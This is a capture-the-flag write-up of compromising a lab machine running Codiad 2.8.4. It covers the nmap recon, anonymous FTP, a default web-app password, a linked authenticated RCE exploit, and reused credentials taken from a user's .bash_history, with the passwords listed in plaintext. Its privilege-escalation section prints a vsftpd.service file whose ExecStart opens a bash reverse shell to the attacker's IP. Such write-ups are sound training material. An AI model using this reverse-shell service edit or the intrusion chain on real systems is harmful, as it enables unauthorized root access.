 # IDE
### Users
```
john
drac
```
### Credentials
```
Codiad Web app:
john:password

System:
drac:Th3dRaCULa1sR3aL
/home/drac/.bash_history:mysql -u drac -p 'Th3dRaCULa1sR3aL' --> From .bash_history
- Credentials reused for system user
```
## Recon
### Nmap Scan
```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.105.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
**Quick Look:**
FTP:
* Anonymous login allowed

HTTP:
* Apache default page

HTTP 62337:
* Codiad 2.8.4
### Web Recon
**Port 62337**
Service running on port 62337 was vulnerable to an Authenticated Remote Code Execution vulnerability which I was able 
to leverage in my favour to get a reverse shell into the machine.
https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit --> More Here

## Foothold / Privilege Escalation
The server had an FTP service running and I was able to login using anonymous credentials.
Inside the developers tried to hide a file under the “…” directory and called it “-”. So when I downloaded and changed the name to message, it read a message from the admins about the credentials for the user john. It stated the password was reset to the default password which was very easily guessable since it was “password”. The credentials in question were for the service running on port 62337 which was Codiad v2.8.4, this version was vulnerable to an Authenticated Remote Command Execution vulnerability.
The exploit is related to how Codiad processes file uploads and the lack of proper input validation. The core of the issue is the unsafe inclusion of user-provided files.
I used the Codiad RCE exploit to get an initial foothold in the machine.
### Privilege Escalation
Looking through the machine I found another user drac, and in his home directory he did not clean up his .bash_history file so I was able to read through it and found a MySQL database password with his username.
I tested for credential reusage and was successful, I now have a real user compromised.
**Privilege Escalation via .service files**
As the user drac I had sudo permissions on the vsftpd service, more importantly I could restart it with sudo.
So with this information I could try and change the vsftpd.service file to execute a reverse shell when I restart it.
```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<LISTENER_PORT 0>&1'
ExecReload=/bin/kill -HUP $MAINPD
ExecStartPre=-/bin/mkdir -p /var/run/vsftp/empty

[Install]
WantedBy=multi-user.target
```
If you restart it now you will get an error, but just execute what the error tells you and restart vsftpd again but don't forget to setup your listener otherwise the shell won't work and you get root.
## Notes
**Privilege Escalation via editing .service files**
Using .service files an attacker if they have permissions, modify files and execute unwanted commands. Like in this case I modified the vsftpd.service file in a way that when the ftp service starts it will give my current user sudo permissions for the whole system. So I could just sudo su and get root.